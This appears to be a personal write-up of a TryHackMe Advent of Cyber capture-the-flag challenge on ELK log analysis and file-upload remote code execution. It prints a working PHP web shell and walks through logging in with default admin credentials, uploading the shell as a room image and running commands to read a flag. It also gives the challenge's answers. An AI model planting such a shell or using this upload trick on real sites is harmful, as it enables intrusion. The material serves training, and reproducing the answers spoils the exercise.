





# Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it.

## Background story
> The below is copied from the day 3 description.

Today's AoC challenge follows a rather unfortunate series of events for the Glitch. Here is a little passage which sets the scene for today's task: 

Late one Christmas evening the Glitch had a feeling,
Something forgotten as he stared at the ceiling.
He got up out of bed and decided to check,
A note on his wall: ”Two days! InsnowSec”.

With a click and a type he got his hotel and tickets,
And sank off to sleep to the sound of some crickets.
Luggage in hand, he had arrived at Frosty Pines,
“To get to the conference, just follow the signs”.

Just as he was ready the Glitch got a fright,
An RCE vulnerability on their website ?!?
He exploited it quick and made a report,
But before he could send arrived his transport.

In the Frosty Pines SOC they saw an alert,
This looked quite bad, they called an expert.
The request came from a room, but they couldn’t tell which,
The logs saved the day, it was the room of…the Glitch.

In this task, we will cover how the SOC team and their expert were able to find out what had happened (Operation Blue) and how the Glitch was able to gain access to the website in the first place (Operation Red).

## Learning objectives
- Learn about Log analysis tools like ELK
- Learn about KQL and how it can be used to investigate logs using ELK
- Learn about RCE (Remote Code Execution) and how this can be done via insecure file uploads

> Note: This day's challenge is pretty guided, and so at lot of the information below is my actions following the guidance.

## Connecting to the machine
This challenge requires you to connect to the machine provided by TryHackMe. You can do this by starting the machine and connecting to it either through the OpenVPN connection or the Attack Box.

For this challenge, I used the OpenVPN connection just to check my connection worked as I haven't used it in a while.

## Operation Blue

### Log analysis & Introducing ELK
This section of the challenge is about using ELK to analyse logs. ELK stands for Elasticsearch, Logstash, and Kibana. It is a stack that is used for log analysis and visualisation. 

The rest explains how to use ELK to analyse the logs for the Frosty Pines SOC. I won't be copying that here as it's a lot of information that is better read on the challenge page. I will cover some of the key points below.

### Using ELK
Once the machine is started, the challenge provides the connection details for the ELK stack. You can click on the link to connect to the dashboard.

This is similar to the Elastic SIEM system from [day 2](./day-2.md), but with a different set of logs to analyse.

Again we go to the discover page, selected from the left menu.

We then need to select the correct log collection from the box at the top-left of the page. The challenge tells us to select the `wareville-rails` collection:



Next we need to set the time range (see [day 2](./day-2.md) for how to do this) with a start date of October 1st 2024 00:00:00, and an end date of October 1st 2024 23:30:00.

Now we see some logs:



On the challenge page, there is a description of the Kibana Discover UI. I won't be copying that here - go to the challenge page to read it.

### Kibana Query Language (KQL)
The Kiabana Query Language is used to search and filter logs in Kibana. The challenge provides a brief overview of how to use KQL to search for logs. Again, I won't be copying that here - go to the challenge page to read it. It also mentions the Lucene query syntax which is used by KQL.

### Investigating a Web Attack with ELK
The challenge provides the following scenario:
> **Scenario**: Thanks to our extensive intrusion detection capabilities, our systems alerted the SOC team to a web shell being uploaded to the WareVille Rails booking platform on Oct 1, 2024. Our task is to review the web server logs to determine how the attacker achieved this

Once Elastic is set up as described above, we can now start by filtering out noise from the logs. This can be done using the filters in a similar way to [day 2](./day-2.md).

Firts we add a filter for the IP address 10.9.98.230. We can use the `clientip` field to do this. Find the `clientip` field in the list of fields on the left, and click on the name. This will show you the top values for that field. We can the click the `+` next to the IP address we want to filter for.

When we filter by IP address `10.9.98.230`, we can see that there is a lot of activity around 12:00:00 on October 1st 2024. We update the time range to only show values from 11:30:00 to 12:00:00 on October 1st 2024:



> Note: The challenge page shows 350 events in the time range, but I only see 345. I don't know why this is, but I don't think it matters for the challenge.

You can expand logs using the `>` icon from the left of the log entry. This will show you more information about the log entry.

> Note: For the Blue section, this is where following the guidance ends. The information shown in the challenge doesn't match the information I see in the logs. I watched the walkthrough video, but the person in the video only reads the Blue section and doesn't actually do it - only the Red section. I asked on Discord, and it seems that it is expected that the Blue section doesn't match what you see in the logs. I suggest just reading the Blue section and then moving on to following along with the Red section. This is enough to answer the questions at the end of the challenge.

## Operation Red
This section looks at the attack itself, and how it was carried out.

There is some general information here about Remote Code Execution (RCE), and Cross-Site Scripting (XSS), and why unrestricted file uploads are bad. I won't be copying that here - go to the challenge page to read it.

### Exploiting RCE via File Upload
The challenge provides the following script that we are going to upload to a website:
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

This should be copied and saved in a file called `shell.php`.

## Practical

To do the practical, we need to go back to the Elastic site, and in the Discover page, pick the `frostypines-resorts` log collection. We then need to set the time range to October 3rd 2024 11:30:00 to October 3rd 2024 12:00:00.

We can then use this information to answer the BLUE questions at the end of the challenge. We cna then exploit the RCE vulnerability to upload the `shell.php` file to the website and answer the RED questions.

## Answes to the questions
> Note: This section contains the answers to the questions asked in the challenge. If you don't want spoilers, don't read this section.

### BLUE: Where was the shell uploaded to?
The full question is: `BLUE: Where was the shell uploaded to? Answer formt: /directory/directory/directory/filename.php`

We know the answer probably includes the filename `shell.php`, so we can add a search filter of `message: "shell.php"`. This shows us that the shell was uploaded to `/media/images/rooms/shell.php`.

### BLUE: What IP address accessed the web shell?
The full question is: `BLUE: What IP address accessed the web shell?`

Again, we can see from the logs that when the shell was called to execute a command (e.g. the command `command=ls+..%2F..%2F`), the IP address that executed the command was `10.11.83.34`.

### RED: What is the contents of flag.txt?
The full question is: `RED: What is the contents of flag.txt?`

To do this, we need to upload the `shell.php` file to the website.

I looked around for somewhere to upload the file, but couldn't see anythin on any of the pages. Given the URL it looks like it should be a picture upload for a room, but I couldn't find it. So I decided to log in to an account.

The text for this challenge inludes a list of default credentials that are often left on websites. I decided to try each of these in order:
* admin:admin

This gave me a message that the email was invalid, which suggests that the username should be in an email format. In the list was `admin@domainname`, so I tried that:
* admin@frostypines.thm:admin

That worked and logged me in as Admin! Now I need to find somewhere to upload the file. I clicked on the username at the top right, and selected Admin from the drop down menu.

I was looking for rooms due to the directory we saw before, and the menu at the top had `Add new Room`. I clicked on this and saw a form to add a new room. I filled in the details and uploaded the `shell.php` file as the image for the room.

> Note: You have to change the file filter to `All files` to see the `shell.php` file.

My room appeared in the list of rooms, and so I looked at the source code for the page to see where the `shell.php` file was uploaded to. I found that it was uploaded to `http://frostypines.thm/media/images/rooms/shell.php`.

```html
<tr>
  <td>202</td>
  <td>TC Suite</td>
  <td>gold</td>
  <td class="table-red">Featured</td>
  <td class="td-img"></td>
  <td>788.000</td>
  <td class="table-red">No</td>
  <td class="text-center">-</td>
  <td class="text-center">-</td>
  <td>2</td>
  <td>Ocean</td>
  <td>3 / Queen Bed</td>
  <td>7</td>
  <td>
    <a href="delete_room.php?room_id=10" class="text-danger"> <span class="fa fa-trash"></span>&nbsp;</a>
    &nbsp;
    /
    &nbsp;
    <a  href="edit_room.php?room_id=10" class="text-success"> <span class="fa fa-pencil"></span></a>
  </td>
</tr>
```

I visited that URL to see if the text box appeared that would allow us to run commands. It did, and I did an `ls` command:



There was a `flag.txt` file, so I did a `cat flag.txt` command:



I entered the flag into the challenge page and it was correct.


